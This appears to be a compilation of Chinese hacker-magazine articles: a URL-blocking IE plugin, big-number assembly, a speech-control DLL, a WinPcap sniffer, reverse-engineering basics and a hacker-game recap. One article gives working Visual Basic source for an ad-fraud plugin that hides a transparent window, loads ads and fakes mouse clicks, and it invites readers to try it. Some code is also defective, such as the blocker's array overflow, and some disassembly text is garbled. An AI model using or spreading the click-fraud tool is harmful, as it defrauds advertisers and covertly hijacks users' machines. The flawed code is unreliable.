了解了上述的事件机制之后，我们就明确怎么编写我们的代码了。既然是监控网址的，那么我们可以在 `DISPID_BEFORENAVIGATE2` 事件中对网址进行监控。事件的方法需要在 `Invoke` 函数中编写，这里用 `switch` 语句进行判断。要处理的网址放到文件里，让程序从文件里读取网址，然后与用户输入的网址进行对比。代码如下：

```cpp
STDMETHODIMP CIEHlprObj::Invoke(DISPID dispidMember, REFIID riid, LCID lcid, WORD wFlags,
                                DISPPARAMS* pDispParams, VARIANT* pvarResult,
                                EXCEPINFO* pExcepInfo, UINT* puArgErr)
{
    USES_CONVERSION;
    if (!pDispParams)
        return E_INVALIDARG;

    LPOLESTR lpURL = NULL;
    m_spWebBrowser2->get_LocationURL(&lpURL);

    char sitelist[100][1024];   // 所有站点名称
    char site[1024];            // 站点名称

    ifstream in("c:\\Sitelist.dat", ios::in); // 从文件中读取要检测的网址
    if (in.fail())
        return E_INVALIDARG;

    int i = 0;
    int count;
    while (1) {
        in >> site;
        if (site == NULL || strlen(site) == 0)
            break;
        strcpy(sitelist[i], site);
        i++;
        site[0] = '\0';
        if (i >= 1024)
            break;
    }

    in.close();
    count = i;

    switch (dispidMember)
    {
    case DISPID_BEFORENAVIGATE2: // 这就是我们要处理的事件
    {
        char *str;
        if (pDispParams->cArgs >= 6 && pDispParams->rgvarg[5].vt == (VT_BYREF|VT_VARIANT))
        {
            CComVariant varURL(*pDispParams->rgvarg[5].pvarVal);
            varURL.ChangeType(VT_BSTR); // 转化要访问的网址为char*型
            str = OLE2A(varURL.bstrVal);

            // 如果正要访问的网址为要被拦截的，则弹出提示信息
            for (i = 0; i < count; i++)
            {
                if (strstr(str, sitelist[i]) != NULL)
                {
                    *pDispParams->rgvarg[0].pboolVal = TRUE;
                    MessageBox(NULL, "当前系统禁止浏览该页", "警告", MB_ICONSTOP);
                    return S_OK;
                }
            }
        }
    }
    break;

    case DISPID_NAVIGATECOMPLETE2:
        break;

    case DISPID_DOCUMENTCOMPLETE:
        break;

    case DISPID_DOWNLOADBEGIN:
        break;

    case DISPID_DOWNLOADCOMPLETE:
        break;

    case DISPID_NEWWINDOW2:
        break;

    case DISPID_QUIT:
        break;

    default:
        break;
    }

    return S_OK;
}
```

编译之后生成了一个 dll 文件，这就是我们需要的文件，如图 2 所示。我们在网址文件中写入我们需要拦截的网址，如图 3 所示，这里用 www.baidu.com 做测试。下一步就是注册我们的 dll 文件，用 cmd 命令“regsvr32 c://IEHelper.dll”来注册，注册结果如图 4 所示，注册成功。我们打开一个新的网页，输入网址 http://www.baidu.com，回车，如图 5 所示，弹出了我们的显示信息，OK，到这里我们的目的就完成了。当然读者可以通过修改我提供的代码进行二次开发，可以实现网址替换、网页内容替换等等功能，这些有待读者自己挖掘。代码已经为读者打包，记住在不用的时候别忘记卸载插件，或者直接删除就可以了。


# VB 流氓广告插件编程分析

大家在上网时，难免会遇到一些恶意的流氓插件，其中恶意广告插件是最让人头痛的一种。目前常见的广告插件有弹窗广告插件，记得前两年本人在《黑客 X 档案》也发表了一篇关于广告插件的文章，针对弹窗广告插件做了一些简单的编程分析。这次为大家介绍另外一款恶意广告插件——强制点击隐藏广告插件。做到无形中点击广告，并且不弹窗，让人难以察觉。

强制点击桌面上完全透明的广告，并且不弹出广告页面，这一款广告插件属于一些广告联盟用户作弊的商业插件，思路分析如图 1 所示。

## 一、原理分析

强制点击隐藏广告插件是一款并不算流行的广告插件，它的隐藏性高，难以察觉。此广告插件运行后，自动隐藏弹出广告，并在桌面固定的位置完全透明“显示”，并控制鼠标点击。


## 二、恶意广告程序编译


图3


图4


图2

首先放置插件所需的控件，如图 2 所示。这里我们需要 2 个 WebBrowser，WebBrowser1 高度和宽度根据广告大小来自我调节，WebBrowser2 隐藏。然后设置窗体 BorderStyle 为 0-None，去掉窗体的最大、最小、关闭等按钮；接着设置窗体 Form1 的桌面显示位置，也就是广告所显示的位置，从而可以控制鼠标坐标去点击该广告，如图 2、3、4 所示。

在 Form1 窗体添加以下代码：

```vb
Private Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (...) As Long
Private Declare Function SetWindowLong Lib "user32" Alias "SetWindowLongA" (...) As Long
Private Declare Function SetLayeredWindowAttributes Lib "user32" (...) As Long
Private Const WS_EX_LAYERED = &H80000
Private Const GWL_EXSTYLE = (-20)
Private Const LWA_ALPHA = &H2
Private Const LWA_COLORKEY = &H1
Private Declare Sub mouse_event Lib "user32" (...)
```

```vb
Private Const MOUSEEVENTF_ABSOLUTE = &H8000
Private Const MOUSEEVENTF_LEFTDOWN = &H2
Private Const MOUSEEVENTF_LEFTUP = &H4
Private Const MOUSEEVENTF_MIDDLEDOWN = &H20
Private Const MOUSEEVENTF_MOVE = &H1
Private Declare Function SetCursorPos Lib "user32" (...) As Long
Private Declare Function SetWindowPos Lib "user32" (...)
Const HWND_TOPMOST = -1
Const SWP_SHOWWINDOW = &H40

Private Sub Form_Load()
    Dim retValue As Long
    Me.Hide
    Call SetWindowPos(Me.hwnd, -1, 0, 0, 0, 0, ...)
    WebBrowser1.Navigate "http://127.0.0.1/ad.html"
    ret = GetWindowLong(hwnd, GWL_EXSTYLE)
    ret = ret Or WS_EX_LAYERED
    SetWindowLong hwnd, GWL_EXSTYLE, ret
    SetLayeredWindowAttributes hwnd, 0, 200, LWA_ALPHA
End Sub

Private Sub WebBrowser1_NewWindow2(ppDisp As Object, Cancel As Boolean)
    Set ppDisp = Form1.WebBrowser2.Object
End Sub
```

```vb
Private Sub WebBrowser2_BeforeNavigate2(ByVal pDisp As Object, URL As Variant, Flags As Variant, TargetFrameName As Variant, PostData As Variant, Headers As Variant, Cancel As Boolean)
    WebBrowser1.Navigate URL
    Cancel = True
End Sub

' 防止点击广告后弹出页面
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    Dim SCR_W As Long
    Dim SCR_H As Long

    If (pDisp Is WebBrowser1.Object) Then
        ' 判断广告是否完全打开，确保广告点击无误
        Me.Show
        ' 判断广告完全打开后，再显示窗体
        SetCursorPos 80, 50    ' 鼠标坐标
        ' 左键按下
        mouse_event MOUSEEVENTF_LEFTDOWN, 0, 0, 0, 0

        DoEvents
        ' 左键放开
        mouse_event MOUSEEVENTF_LEFTUP, 0, 0, 0, 0

        DoEvents
        Me.Hide   ' 点击后立刻隐藏广告
    End If
End Sub
```


图5

在窗体内添加以下代码：

```vb
Private Declare Function GetCursorPos Lib "user32" (lpPoint As POINTAPI) As Long

Private Type POINTAPI
    X As Long
    Y As Long
End Type

Sub PrintCursorPos()
    Dim dl As Long
    Dim MyPoint As POINTAPI
    dl& = GetCursorPos(MyPoint)
    Label1.Caption = "X=" & Str(MyPoint.X)   ' 这里是X坐标
    Label2.Caption = "Y=" & Str(MyPoint.Y)   ' 这里是Y坐标
End Sub

Private Sub Command1_Click()
    Timer1.Enabled = True
    ' 开始获取
End Sub

Private Sub Form_Load()
    Timer1.Enabled = False
End Sub

Private Sub Timer1_Timer()
    PrintCursorPos
End Sub
```

WebBrowser1 完全打开广告时才会把 Form 窗体调用出来，并在所有程序的最前端，避免了被其他程序或者网页挡住广告，然后控制鼠标去点击，等待鼠标点击完毕后，Form 窗体并自动隐藏，不会占用桌面，这样就完成了恶意广告的编译。有关于广告的开机自启动的方法请参考《黑客 X 档案》之前介绍的黑客编程文章，这里不再赘述。

## 三、鼠标桌面位置坐标获取工具编译

有些同学会问了，控制鼠标去点击窗体上的广告，要确定鼠标的坐标，那怎么办呢？下面来说一下鼠标位置获取的编译方法。新建窗体，添加 Command1 和 Timer1 各一个，两个 Label 控件。Timer1 的 Interval 设置为 1，Label1 和 Label2 分别为 X、Y 坐标，点击按钮开始获取坐标，如图 5 所示。

这样就完成了对鼠标坐标获取工具的编译，大家还不赶紧试试！如果您对比广告插件有更好的思路，请在黑客 X 档案论坛给我留言，我会及时与大家讨论哦。

> （文章中涉及的相关源码本期光盘已收录）

# 汇编玩转下的大数运算

沧海浮萍

在 X 档案的群里聊天的时候，我们可爱的管理员艾德薇尔兰问了一个问题：“求 C 语言输出：999999999999+1234567890123 的结果”，如图 1 所示。研究了一会，觉得挺有意思，直接用 C 语言中的数据类型肯定是搞不定了。我第一次想到的方法是写一个算法挨个位相加，然后再组成一个字符串，这个方法可以，而且也不是很难。后来我又用了汇编写了一个算法，这里就晒一晒，汇编代码如下：


```asm
name "huge_number"

org 100h
jmp code
len equ 32

; 第一个数据
num1 db 0,0,4,2,3,4,5,4,6,1,2,3,6,1,2,3,4,5,1,2,3,4,4,5,3,5,1,7,9,5,2,1

; 第二个数据
num2 db 0,0,7,1,2,3,7,8,8,4,7,7,7,3,9,8,1,1,2,3,5,1,3,1,3,7,8,8,2,4,9,8

; 我们要计算的结果是
; sum = num1 + num2

sum db len dup(0)

code:
  nop
  xor bx, bx
  mov cx, len
  mov bx, len-1

next_digit:
  mov al, num1[bx]
  ; 带符号位相加
  adc al, num2[bx]
  aaa
  ; 存放结果
  mov sum[bx], al
  dec bx
  loop next_digit

  adc sum[bx], 0
  ; 将数据长度放到cx中准备显示结果
  mov cx, len
  ; 准备显示结果
  mov bx, 0
print_d:
  mov al, sum[bx]
  ; 转换为ASCII结果显示
  or al, 30h
  mov ah, 0eh
  ; 显示指令的中断数据
  int 10h
  ; 准备显示sum数组中的下一个数据
  inc bx
  ; 循环，直到cx为0显示结束
  loop print_d
  ; 等待用户输入，结束
  mov ah, 0
  int 16h
  ret
```


这段代码很简单地实现了两个大数相加的作用，运算结果如图 2 所示。代码上的注释已经很详细了，如果读者对其中的指令有不懂的话，就需要自己看一下指令手册了。

# 打造自己的语音识别控制系统

沧海浮萍

语音识别系统相信大家一定很熟悉，但这类系统往往都是计算机或者操作系统自带的一些功能，很难让用户进行自己想要的控制。本文就为大家介绍怎么编程实现自己的语音识别控制系统，读者可以在原有代码的基础上进行二次修改开发，制作更加强大的控制系统。

为了方便用户使用，我们将控制模块编写成 DLL 动态链接库的模式进行调用，这样就可以发布我们的模块了。本文使用的操作系统是 Windows XP SP3。在正式开发之前，我们需要安装 Windows 平台下的 Speech SDK 开发包，以便支持我们的应用程序。SDK 开发包已经为读者打包，如图1所示。安装完毕之后，我们会在控制面板里看到增加的语音控制选项，如图2。我们需要对该选项进行相应的设置，语音类型设置为简体中文，如图3。选择完毕之后点击“配置麦克风”，弹出如图4所示的界面，我们开始测试麦克风，然后进行下一步的训练测试。训练测试完毕之后，我们就可以开始开发了。


系统配置完毕，开始配置开发环境。采用的开发平台是 VC++ 6.0，我们打开“工具”→“选项”，在“目录”选项卡添加 SDK 头文件目录，如图5、图6。然后添加 lib 库，如图7。都添加完毕之后我们就可以开始编码了。

现在我们需要确定语音识别的命令有哪些。作为测试，这里用简单的几个进行测试，读者可以自定义，这里的命令关键词如图8所示。我们将关键词按行写入一个 XML 文本文件，然后用 SDK 的工具将该文本文件进行编译；编译之后我们的语音识别引擎就可以识别这些关键词了。来到 SDK 安装目录，找到一个名为 gc.exe 的程序，这个就是我们的编译器。我们将命令文本文件 CmdCtrl.xml 放到该目录下，通过 cmd 进入该目录，然后输入“gc CmdCtrl.xml”，编译器就会开始编译我们的命令，很快就会编译成功，结果如图10所示。这时当前目录下会产生一个后缀名为 cfg 的文件，这就是我们需要的命令文件，如图11所示。我们将该文件拷贝出来，留待使用。到这里为止，我们所有的准备工作都已经完成了，下面就开始写代码了。


我们为了方便使用 DLL 库，这里就直接将能用到的函数封装到 DLL 中，函数以及说明如下：

```text
EXPORTS
    speech_init @1          // 初始化语音识别引擎
    speech_event @2         // 激活语音识别事件
    speech_commandMode @3   // 激活命令控制模式
    speech_readfile @4      // 读取文件
    speech_play_wav_sound @5 // 开始播放
    speech_stop_wav_sound @6 // 停止播放
    speech_training @7      // 语音识别训练
    speech_set @8           // 语音识别设置
    speech_stop @9          // 关闭语音识别引擎
    speech_to_text @10      // 语音到文本模式
```

这里我们测试使用的函数，就是通过语音来控制播放音乐、停止音乐，控制函数如下所示：

```cpp
int __declspec(dllexport) speech_event() // 语音命令事件
{
    ...
}
```

```cpp
USES_CONVERSION;
CSpEvent event;
while (event.GetFrom(m_cpRecoCtxt) == S_OK)
{
    switch (event.eEventId)
    {
    case SPEI_SOUND_START:
        m_bInSound = TRUE;
        break;

    case SPEI_SOUND_END:
        if (m_bInSound)
        {
            m_bInSound = FALSE;
            m_bGotReco = FALSE;
        }
        break;

    case SPEI_RECOGNITION:
        m_bGotReco = TRUE;
        static const WCHAR wszUnrecognized[] = L"<Unrecognized>";
        CComBSTR dstrText;
        if (FAILED(event.RecoResult()->GetText(..., &dstrText, NULL)))
            dstrText = wszUnrecognized;

        BSTR sRout;
        dstrText.CopyToBSTR(&sRout);
        CString Recstring;
        Recstring.Empty();
        Recstring = sRout;
        for (int i = 0; i < count; i++)
        {
            ...
        }
    }
}
```

```cpp
if (Recstring == Data[i] && Data[i] != '\0')
{
    AfxMessageBox(Data[i]);
    return i; // 通过这个返回值，我们就可以确定用户的命令了
}
...
break;
...
return -1;
}
```


图12

上面的代码很好地方便用户使用。我们这里将命令放到文本文件里，然后读取文件并将文件内容存放到数组中，这样我们的应用程序就可以通过数组下标确定用户的命令是什么了。DLL 中其他的函数代码笔者就不列举了，笔者已经编译好了模块，读者可以直接使用 DLL。下一步就要编写 DLL 测试程序了，这里采用动态调用。初始化的工作我们放到按钮上来实现，界面如图12，代码如下：

```cpp
speech_hd = LoadLibrary("speech_dll.dll");
if (!speech_hd)
{
    AfxMessageBox("语音引擎初始化失败!");
}
else
{
    sp_event = (lpEvent)GetProcAddress(speech_hd, "speech_event"); // 语音事件
    typedef void(*lpCmdMode)();
    typedef void(*lpInit)(CString, HWND);
    ...
}
```

```cpp
typedef BOOL(*lpReadFile)(CString);

lpCmdMode cmdmode;
lpInit sp_init;
lpReadFile readfile;
cmdmode = (lpCmdMode)GetProcAddress(speech_hd, "speech_commandMode");
sp_init = (lpInit)GetProcAddress(speech_hd, "speech_init");
readfile = (lpReadFile)GetProcAddress(speech_hd, "speech_readfile");
Play = (lpPlay)GetProcAddress(speech_hd, "speech_play_wav_sound");
stopPlay = (lpStopPlay)GetProcAddress(speech_hd, "speech_stop_wav_sound");
stopSpeech = (lpStopSpeech)GetProcAddress(speech_hd, "speech_stop");
sp_text = (lpText)GetProcAddress(speech_hd, "speech_to_text");

if (stopSpeech == NULL) {
    AfxMessageBox("error");
}

sp_init("CmdCtrl.cfg", m_hWnd);   // 读取命令文件
cmdmode();                        // 打开语音命令模式
readfile("cmd.txt");              // 获取命令文本

if (message == WM_RECOEVENT) {
    int m = sp_event();
    if (m == 0) { AfxMessageBox("最小化"); }
    if (m == 1) { AfxMessageBox("最大化"); }
    if (m == 2) { AfxMessageBox("帮助"); }
    if (m == 3) { Play("清晨.wav"); }
    if (m == 4) { stopPlay("清晨.wav"); }
    if (m == 5) { }
}

return CDialog::DefWindowProc(message, wParam, lParam);
```

OK，这些代码实现完毕，我们就可以测试了。将 CmdCtrl.cfg 命令文件、cmd.txt、speech_dll.dll 动态库文件、清晨.wav 音频文件放到一个目录下，如图13所示。打开测试程序，点击按钮，这时语音引擎就已经打开了，下面就可以按照命令文件进行控制了。对准麦克风，用普通话说“音乐”，这时候就会听见程序播放音乐。再说一遍“停止”，这时音乐就会停止播放了。其他命令效果界面如图14、15、16所示。

初始化完成之后，我们就可以通过控制函数的返回值确定用户读出的命令，确定方法如下：

```cpp
LRESULT CdlltestDlg::DefWindowProc(UINT message, WPARAM wParam, LPARAM lParam)
{
    if (message == WM_RECOEVENT)
    {
        int m = sp_event();
        if (m == 0)
        {
            AfxMessageBox("最小化");
        }
        if (m == 1)
        {
            AfxMessageBox("最大化");
        }
        // ...
    }
}
```


图13


图14

## 开启语音引擎


图15


图16

本文给出的 DLL 动态链接库用户可以直接使用，命令文件自己编制就可以实现自己想要的命令效果。测试代码以及 DLL 模块已经为大家打包了，有兴趣的读者可以尝试自己修改，打造自己的语音控制系统。

# 简单抓包工具的实现

沧海浮萍


图1


图2

今天教给大家通过 C 语言编程实现简单的抓包工具，编译平台为 VC6.0。在开始写代码之前，我们需要安装一个开发包 WpdPack 以及 WinPcap 驱动，这里面包含了我们需要用到的头文件以及相关函数。解压之后，需要设置 VC6 的头文件目录以及 lib 文件目录，如图1、图2所示。安装设置完毕后就可以进行代码编写了。

首先我们需要包含头文件 `#include <pcap.h>`，然后在“工程”-“设置”里面增加 lib 库文件，如图3、4所示。首先我们需要获取本地计算机上的网卡列表，因为一台计算机可能会安装很多网卡，也可能有一些虚拟网卡，所以首先我们需要枚举出所有网卡。这里需要用到函数 `pcap_findalldevs`，这个函数位于 WpdPack 开发包中，声明如下：

```c
int pcap_findalldevs(pcap_if_t **, char *);

if (pcap_findalldevs(&alldevs, errbuf) == -1) {
    fprintf(stderr, "执行失败: %s\n", errbuf);
    exit(1);
}
```

如果函数执行成功，那么本机所有安装的网卡都会被检测出来并存放到 `pcap_if_t` 结构中。我们需要用循环列举出来，显示本地网卡的代码如下：

```c
pcap_if_t *d;
for (d = alldevs; d; d = d->next)
{
    printf("%d. %s\n", ++i, d->name);
    if (d->description)
        printf(" (%s)\n", d->description);
    else
        printf(" (没有网卡信息描述)\n");
}
```

枚举了所有网卡之后，下一步就需要选择进行数据包捕获的网卡。这里直接用网卡序号进行选择即可，代码如下：

```c
printf("请输入序号（1-26）：");
scanf("%d", &inum);

if (inum < 1 || inum > i)
{
    printf("\n输入错误\n");
    pcap_freealldevs(alldevs);
    return -1;
}

for (d = alldevs, i = 0; i < inum - 1; d = d->next, i++)
{
}

if ((fp = pcap_open_live(d->name,
    65536,
    1,
    1000,
    errbuf)) == NULL)
{
    fprintf(stderr, "\n打开网卡失败\n");
    return -1;
}
```

```c
if ((fp = pcap_open_live(...)) == NULL)
{
    fprintf(stderr, "\n打开网卡失败\n");
    return -1;
}
```

如果用户输入的序号错误，那么我们就提示输入错误，然后用 `pcap_freealldevs(pcap_if_t **)` 函数将获取的结构释放，这个函数也是 WpdPack 开发包中的函数。如果输入正确，那么我们就用函数 `pcap_open_live(const char *, int, int, int, char *)` 打开指定设备，进行网络数据读取。

- 参数 `d->name` 表示网卡名称。
- `65536` 表示不限制长度，即全部读取。
- `1` 表示使用混杂模式，`0` 表示不采用混杂模式。
- `1000` 表示读取超时时间，单位 ms。
- `errbuf` 表示错误信息缓冲区。


指定设备打开之后，下面就开始正式的数据包读取了：

```c
while ((res = pcap_next_ex(fp, &header, &pkt_data)) >= 0)
{
    ...
}
```

```c
if (res == 0)
    continue;
printf("%ld:%ld (%ld)\n", header->ts.tv_sec, header->ts.tv_usec, header->len);

/* 以16进制形式打印数据 */
for (i = 1; i < header->caplen + 1; i++)
{
    printf("%.2x ", pkt_data[i - 1]);
    if ((i % LINE_LEN) == 0) printf("\n");
}
printf("\n\n");
```


图5

图6

函数 `pcap_next_ex()` 是一个非回调函数的捕包函数，其中另一个函数 `pcap_loop()` 也可以使用，这两个函数效果一样；但 `pcap_loop()` 是回调方式，在一些情况下使用起来会比较麻烦，所以建议使用 `pcap_next_ex()`。成功捕获数据包之后，我们用16进制形式将数据打印出来，程序运行效果如图5、6所示。

如果程序无法读取数据，就需要关闭 pcap，使用函数 `pcap_close()`；不过一般情况下不会出错。本文代码已经为读者打包，读者可以将这些代码加以修改，变成扩展性更强的代码，嵌入到自己的程序中。

# 破解叙述法（七）逆向分析基础

再过几天就是rejector老师高考失败一周年纪念日了。

呵呵，开个小玩笑。唉，回想起去年的这个时候，rejector正在努力为高考奋斗着呢，真是辛苦呢。整天忙得都没有时间写代码了。不过俗话说得好啊，没有经历过高三的人生是不完整的，所以累一点也值了。呵呵，更何况考完之后还会有一个很长的暑假，可以好好放松一下。当然，放松的时候也不能忘了那些一起奋斗了三年的同学哈。在这里rejector还是要为今年高考的叉子们祈祷一下，希望大家都能考上自己理想中的大学，然后像我一样选个自己喜欢的专业。当然我选的是计算机专业，哈哈。

好了，话不多说，下面开始进入今天的课程。

前几节课主要讲了一下对常见的软件保护方式的突破，从这节课开始，我们就来学习逆向分析技术。本节课，我们先来了解一下基础知识！

我们慢慢来，首先写出C语言代码，然后再分析相应的反汇编代码！

## 一、数据和基本运算

C语言代码如下：

```c
#include "stdio.h"

int x, y;

int main()
{
    int z;
    x = 1;
    y = 2;
    z = x + y;
    z = x - y;
    z = x * y;
    z = x / y;
    return 0;
}
```

这段代码很简单，就是定义变量，接着赋值，然后加减乘除，没有什么好解释的。现在我们来看看它在CPU里的具体执行过程，程序编译后的反汇编代码如下：

```asm
0041137E  C705 A0714100 01000000    mov dword ptr [4171A0],1
00411388  C705 9C714100 02000000    mov dword ptr [41719C],2
00411392  A1 A0714100               mov eax,dword ptr [4171A0]
00411397  0305 9C714100             add eax,dword ptr [41719C]
0041139D  8945 F8                   mov dword ptr [ebp-8],eax
004113A0  A1 A0714100               mov eax,dword ptr [4171A0]
004113A5  2B05 9C714100             sub eax,dword ptr [41719C]
004113AB  8945 F8                   mov dword ptr [ebp-8],eax
004113AE  A1 A0714100               mov eax,dword ptr [4171A0]
004113B3  0FAF05 9C714100           imul eax,dword ptr [41719C]
004113BA  8945 F8                   mov dword ptr [ebp-8],eax
004113BD  A1 A0714100               mov eax,dword ptr [4171A0]
004113C2  99                        cdq
004113C3  F73D 9C714100             idiv dword ptr [41719C]
004113C9  8945 F8                   mov dword ptr [ebp-8],eax
```

现在我们来注意一下细节。程序定义了三个变量，x、y还有z，其中x和y是全局变量，z是局部变量。在程序运行的时候，全局变量是储存在固定内存中的，而局部变量是储存在堆栈中的。在这里4171A0处是变量x，41719C处是变量y，它们都存在于内存里的固定地址，而ebp-8里储存的是局部变量z。ebp寄存器是指向堆栈基址的指针，以后在程序中再出现这三个地址的时候，我们把它相应地理解为x、y和z就可以了。

先看前两句，把数据1和2分别放到内存中的两个位置，这两个位置就是上面刚刚说过的x和y变量的地址，这两句就是给x和y变量赋值。我们知道在运算中eax寄存器相对于其它寄存器的处理速度较快，所以常被用来作累加器使用，这里就使用eax寄存器来进行运算。现在看后边的三句，使eax等于x，然后再加上y，然后储存运算过程到z，这是加法过程。再向后看三句，使eax等于x，然后再减去y，然后储存运算过程到z，这就是减法过程。再向后看三句，使eax等于x，然后再乘以y，然后储存运算过程到z，这就是乘法过程。现在看最后四句，使eax为x，然后扩展数据为64位，使edx的所有位都变成eax的最高位，然后和y做除法，最后保存运算结果。

我们直接来看第三句，这里调用了一个函数，这个函数就是add函数。在这一句之前调用了两个push语句，分别向堆栈里存入两个数据3和4，正好就是我们要向函数所传递的参数。这调用语句之后有一个add语句，给esp寄存器加8。我们知道esp寄存器是指向堆栈顶端的指针，因为在函数调用前使用push语句来传递参数，所以最后要使用add语句来平衡堆栈。细心的读者可能还会发现，add函数的最后一句是retn，retn是返回语句，但是它只有一个指令，没有操作数，那CPU怎么知道程序要返回到哪里呢？我们先来看看call调用的过程。我们知道eip寄存器是指令指针寄存器，指向CPU下一句将要执行的代码。在程序使用call指令来调用一个过程的时候，首先把当前的eip寄存器的值存入堆栈，然后再把eip寄存器的值修改为所要调用的过程的地址，这样就把返回地址保存在堆栈中了。当遇到retn返回指令的时候，就直接从堆栈中取出一个值，把eip修改为该值。

## 二、函数调用

C语言代码如下：

```c
#include "stdio.h"

int add(int x, int y)
{
    return (x + y);
}

int main()
{
    add(3, 4);
    return 0;
}
```

这里定义了一个add函数，函数有两个参数，函数被调用后返回两个参数的和。在主函数中调用了这个函数，参数为3和4，现在我们来看看程序的反汇编代码：

```asm
004113AE  6A 04            push 4
004113B0  6A 03            push 3
004113B2  E8 01FEFFFF      call 004111B8
004113B7  83C4 08          add esp, 8

; 这里是主函数

004111B8  mov eax, dword ptr [esp+8]
004111BC  mov ecx, dword ptr [esp+4]
004111C0  add eax, ecx
004111C3  retn

; 这里是add函数
```

## 三、控制语句

C语言代码如下：

```c
#include "stdio.h"

int main()
{
    int x = 2;
    if (x == 2)
    {
        x = 1;
    }

    while (x < 2)
    {
        x = x + 1;
    }

    switch (x)
    {
    case 1:
        x = 0;
        break;
    case 2:
        x = 1;
    default:
        break;
    }

    return 0;
}
```

这里首先定义一个整数x，当x等于2的时候x为1，然后当x小于2的时候自增1，然后在switch语句里，如果x为1则变为0，如果x为2则变为1，直接来看反汇编代码：

```asm
0041137E    C745 F8 02000000    mov dword ptr [ebp-8], 2
00411385    837D F8 02          cmp dword ptr [ebp-8], 2
00411389    75 07               jnz short 00411392
0041138B    C745 F8 01000000    mov dword ptr [ebp-8], 1
00411392    837D F8 02          cmp dword ptr [ebp-8], 2
00411396    7D 0B               jge short 004113A3
00411398    8B45 F8             mov eax, dword ptr [ebp-8]
0041139B    83C0 01             add eax, 1
0041139E    8945 F8             mov dword ptr [ebp-8], eax
004113A1    EB EF               jmp short 00411392
004113A3    8B45 F8             mov eax, dword ptr [ebp-8]
004113A6    8985 30FFFFFF       mov dword ptr [ebp-D0], eax
004113AC    83BD 30FFFFFF 02    cmp dword ptr [ebp-D0], 1
004113B3    74 0B               je short 004113C0
004113B5    83BD 30FFFFFF 02    cmp dword ptr [ebp-D0], 2
004113BC    74 0B               je short 004113C9
004113BE    EB 10               jmp short 004113D0
004113C0    C745 F8 00000000    mov dword ptr [ebp-8], 0
004113C7    EB 07               jmp short 004113D0
004113C9    C745 F8 01000000    mov dword ptr [ebp-8], 1
004113D0    33C0                xor eax, eax
```

第一句，给x赋值2，然后和2比较，不等于2就跳走，要是等于2就改变为1。然后再和2比较，大于等于2就跳走，要是小于2就自增1，然后跳走再和2比较，大于等于2就跳走。然后把x分别和1和2比较，如果等于1则改为0，要是等于2则改为1。

## 四、数组

C语言代码如下：

```c
#include "stdio.h"
int main()
{
    int x[5];
    for (int i = 0; i < 5; i++)
    {
        x[i] = i;
    }
    return 0;
}
```

这里定义了一个长度为5的整数数组x，然后使用一个for循环，使x的第i位的值等于i，看看程序的反汇编代码：

```asm
004124BE    C745 DC 00000000    mov dword ptr [ebp-24], 0
004124C5    EB 09               jmp short 004124D0
004124C7    8B45 DC             mov eax, dword ptr [ebp-24]
004124CA    83C0 01             add eax, 1
004124CD    8945 DC             mov dword ptr [ebp-24], eax
004124D0    837D DC 05          cmp dword ptr [ebp-24], 5
004124D4    7D 0C               jge short 004124E2
004124D6    8B45 DC             mov eax, dword ptr [ebp-24]
004124D9    8B4D DC             mov ecx, dword ptr [ebp-24]
004124DC    894C85 E8           mov dword ptr [ebp+eax*4-18], ecx
004124E0    EB E5               jmp short 004124C7
```

第一句，给赋值为0，跳转到比较语句，然后拿1和5比较，如果大于等于5则跳走（等价于小于等于5则不跳），然后使eax和ecx都为1，然后注意倒数第二句，这里ebp-18是数组x的基址，ebp+eax*4-18就是x的第eax位，这里把i放入x的第i位，然后跳回第三句，每次运行都加1，直到超过5。

## 黑客X档案第二版黑客游戏的总结

shanker

## 前言

编写这个游戏想法还是产生于一年前，当时合订本的小手册上有一篇关于黑客游戏的文章，所以产生了这个想法。后来在不断地深入PHP的过程中，构思考察点。这个游戏主要考察了一些流行的入侵手段，我稍候会为大家一一介绍。等到这篇文章和大家见面时，可能是我截稿后的几个月了。因为得等到这次活动完成之后才能发表这篇文章。现在我正在去沈阳的火车上，刚刚上车。昨晚刚刚准备好的图片，结果圣智让我发第三关的答案，正好用上了那些图片，也是很巧合的。其它关卡的答案也会陆续发布。这篇文章并不是论坛上的答案的总和，而是一份总结，而且还会有很多扩展，这一点是值得注意的。

## 三、普通的开始，平常的第一关

这个开始页面还是一如既往地把第二关的入口隐藏了一下，根据反馈情况，大家似乎都找到了，如图1。


第一关也是一如既往地简单，只需要把滚动条拖下来，如图2。再拖到最右端就可以找到第二关地址，如图3。


## 一、一些意外事件

这些意外事件有必要提一下。这套游戏是比较安全的，基本上不会被真正地黑掉。可是，游戏刚刚发布的时候，却连续被黑掉了好多次，大家可能没注意到。原因是这样的：我们的入侵者们社工了VPS的密码（手段非常一致）。第一次是终点被加了一句话：也希望你能认同XX版主是*****（一些不文明用语），而且鸣谢的页面里留了一句话后门。第二次是鸣谢的页面里加了一句英文：XX（还是那位版主，我不知道那位版主为什么那么受欢迎）is a sb。后来我编了一个MD5校验的程序，防止程序被改掉。这几位入侵者还是很发扬风格的，并没有搞太大的破坏。在这里表扬一下。这几次意外都是属于后院起火，原因在于主机服务器安全性有一定问题。

## 四、郁闷的第二关和第三关

这第二关我本来是想让这个地址在状态栏上显示的，如图4。但是由于安全原因，IE上不允许脚本设置状态栏的文字。


题外话：为什么不允许脚本设置状态栏的文字？道理是：为了防止钓鱼网站。试想，当你的鼠标指向一个链接时，你期望在状态栏上得到它的地址；如果当你指向一个钓鱼链接时，它却用脚本在状态栏上显示一个正确的地址，而实际链接的地址是钓鱼网站，这是多么可怕呀！为了防止这样的事情，很多浏览器都采取了一些措施。由于大家看不到状态栏上的信息，所以只能到源代码里边找，如图5。找到这个地址之后，尝试访问一下，发现不存在，明显是加密过的。这个加密应该很好判断，是base64加密；找个解密的网站，解密一下，得到“第三关”的地址，如图6。进去看到一个“md5”加密，如图7。


这个所谓的MD5加密让很多人苦恼了半天，很多人反复上各种论坛上提问，图8、图9是游戏发布24小时搜索的结果，看来很多人都没有仔细看注释。还有一位仁兄问我：“在最下面的fooled是不是提示呢？因为字典上好像没有fooled这个词”。我无语了。


天啊，为什么我反复提醒大家看注释，大家都没有仔细看呢？其实注释里面提示得很明显，如图10。按照注释里面提示的，应该回到第二关再找到第三关的地址，在哪里找呢？显然不是源代码，因为源代码里已经没有与地址相关的东西了，那就应该在标头里面找。大家抓一下包就可以了，我这里就用元素检查器了。元素检查器除了苹果的Safari，谷歌的浏览器里面好像也有，如图11、12。仍然是base64解密，如图13。


